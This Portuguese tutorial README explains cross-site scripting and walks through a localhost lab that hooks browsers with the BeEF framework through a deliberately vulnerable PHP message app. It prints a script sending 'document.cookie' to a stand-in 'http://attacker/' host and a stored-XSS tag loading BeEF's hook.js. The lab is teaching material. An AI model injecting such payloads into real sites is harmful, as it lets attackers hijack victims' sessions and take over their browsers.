 # TUTORIAL XSS - cross site scripting

## O que é o XSS?

O cross site scripting (XSS) é um ataque de injeção de código que permite que um invasor execute JavaScript mal-intencionado no navegador de outro usuário.

O atacante não direciona diretamente a vítima. Em vez disso, ele explora uma vulnerabilidade em um site que a vítima visita, a fim de obter o site para entregar o JavaScript malicioso para ele. Para o navegador da vítima, o JavaScript malicioso parece ser uma parte legítima do site, e o site agiu como um cúmplice não intencional para o invasor.

## Como o JavaScript malicioso é injetado

A única maneira de o invasor executar o JavaScript mal-intencionado no navegador da vítima é injetá-lo em uma das páginas que a vítima baixa do site. Isso pode acontecer se o site incluir diretamente a entrada do usuário em suas páginas, porque o invasor pode inserir uma sequência que será tratada como código pelo navegador da vítima.

No exemplo abaixo, um script simples do lado do servidor é usado para exibir o comentário mais recente em um site:

```js
print "<html>"
print "Latest comment:"
print database.latestComment
print "</html>"
```
### Atores em um ataque XSS
Antes de descrevermos em detalhes como um ataque XSS funciona, precisamos definir os atores envolvidos em um ataque XSS. Em geral, um ataque XSS envolve três atores: o site , a vítima e o invasor .

O site serve páginas HTML para usuários que as solicitam. Nos nossos exemplos, está localizado em http://website/.

O banco de dados do site é um banco de dados que armazena parte da entrada do usuário incluída nas páginas do site.

A **vítima** é um usuário normal do site que solicita páginas a partir dele usando seu navegador.

O **invasor** é um usuário mal-intencionado do site que pretende lançar um ataque à vítima explorando uma vulnerabilidade de XSS no site.

O **servidor do invasor** é um servidor da Web controlado pelo invasor com o único propósito de roubar as informações confidenciais da vítima. Nos nossos exemplos, está localizado em http://attacker/.

### Um exemplo de cenário de ataque

Neste exemplo, vamos assumir que o objetivo final do atacante é roubar os cookies da vítima explorando uma vulnerabilidade do XSS no site. Isso pode ser feito com o navegador da vítima analisando o seguinte código HTML:
```js
<script>
window.location='http://attacker/?cookie='+document.cookie
</script>
```
Esse script navega no navegador do usuário para um URL diferente, acionando uma solicitação HTTP para o servidor do invasor. O URL inclui os cookies da vítima como um parâmetro de consulta, que o invasor pode extrair da solicitação quando chega ao seu servidor. Uma vez que o invasor tenha adquirido os cookies, ele pode usá-los para representar a vítima e lançar novos ataques.

A partir de agora, o código HTML acima será referido como a cadeia maliciosa ou o script malicioso . É importante notar que a string em si é apenas maliciosa se for analisada como HTML no navegador da vítima, o que só pode acontecer como resultado de uma vulnerabilidade do XSS no site.

### Como funciona o ataque de exemplo
O diagrama abaixo ilustra como esse o exemplo de ataque pode ser executado por um invasor:

![Script Server](https://excess-xss.com/reflected-xss.png)

* O atacante cria uma URL contendo uma string maliciosa e a envia para a vítima.

* A vítima é enganada pelo atacante para solicitar o URL do site.

* O site inclui a sequência maliciosa do URL na resposta.

* O navegador da vítima executa o script malicioso dentro da resposta, enviando os cookies da vítima para o servidor do invasor.

![BeEF Logo](https://github.com/beefproject/beef/wiki/Images/logo.png)


# Visão geral BeEF Framework
O Browser Exploitation Framework (BeEF) é uma poderosa ferramenta de segurança profissional. O BeEF é uma técnica pioneira que fornece ao testador de penetração experiente vetores práticos de ataque do lado do cliente. Ao contrário de outras estruturas de segurança, o BeEF se concentra em aproveitar as vulnerabilidades do navegador para avaliar a postura de segurança de um alvo. Este projeto é desenvolvido exclusivamente para pesquisa legal e testes de penetração.

O BeEF conecta um ou mais navegadores da Web como cabeças de ponte para o lançamento de módulos de comando direcionados. Cada navegador provavelmente está em um contexto de segurança diferente e cada contexto pode fornecer um conjunto de vetores de ataque exclusivos. A estrutura permite que o testador de penetração selecione módulos específicos (em tempo real) para direcionar cada navegador e, portanto, cada contexto.

O framework contém vários módulos de comando que empregam a API simples e poderosa do BeEF. Essa API está no centro da eficácia e eficiência da estrutura. Ele abstrai a complexidade e facilita o desenvolvimento rápido de módulos personalizados.

# Prática

## Configuração de Ambiente 

### Primeiro instale o BeEF

[Guia de Instalação](https://github.com/beefproject/beef/wiki/Installation) 

### Em seguinda, caso não tenha instale o Servidor Web 

No nosso caso podemos usar o Xampp. 
Pois iremos utilizar o php, apache e o banco de dados.

[Instalação Xampp Ubuntu](http://www.codebind.com/linux-tutorials/install-xampp-ubuntu-16-04/)

#### Configurar o banco

Ao instalar o xamp ele traz a ferramenta phpmyadmin nela:
* Crie o banco com o nome "messeger"
* Importe o arquivo messeger.sql disponivel no projeto que será baixado e servirá para criar a tabela.


### Baixe este projeto

* Edite o arquivo db.php no projeto com os dados (usuario e senha) do seu banco.

* Após editar o arquivo, coloque na pasta (/opt/lampp/htdocs)

* Verifique se o servidor tá rodando e acesse http://localhost/messager/


Se tudo tive ocorrido bem está é a página que vai mostrar

![formulario](img/form.png)



## O Ataque

Para iniciar, iremos acessar a página onde o beef foi baixado ou clonado e lá iniciar o framework com o comando especificado abaixo:

``` js
./beef
```

Então preencha o formulário da tela anterior com um email qualquer text@text e no campo mensagem digite: 

``` js
<script src="http://127.0.0.1:3000/hook.js"></script>
```
Link encontrado após iniciar a aplicação
![beef](img/beef.png)

    Então esse script irá para o banco e será armazenado.

Após isso acessaremos o painel do beef com o link que se encontra na imagem

``` js
    http://127.0.0.1:3000/ui/panel
```
Então acessem a o painel com o usuário padrão *beef* e senha *beef* e então irá aparecer a página inicial da ferramenta.

![beef inicial](img/beefinicio.png)

Para saber se o site foi infectado, acesse 
http://localhost/messager/mensagens.php

![Tela de retorno das mensagens](img/mensagens.png)

Este é o resultado, está sendo mostrado a lista dos email e mensagens cadastrados.
Se você notar, existe um campo mensagem que está vázio, este é o campo que foi enviado o script malicioso.
Especionado a página, vc encontra o script que foi enviado anteriormente.

Acessando o panel do beef novamente você irá notar que depois de executar a listagem das mensagens o script ativou o monitoriamento na ferramenta e o site está infectado.

![beef infectado](img/beefinfectado.png)

Após isso, clique no ip da máquina que deseja monitorar e então você pode acessar a aba comandos no menu vertical, no modulo browser existe diversos comandos para serem usados no site infectado como: acessar a webcam, obter cookies, obter links como também mudar links.

Existe uma infinidade de opções. Fique a vontade para usar.



# Referências   

https://excess-xss.com/#xss-attacks

https://github.com/beefproject/beef/wiki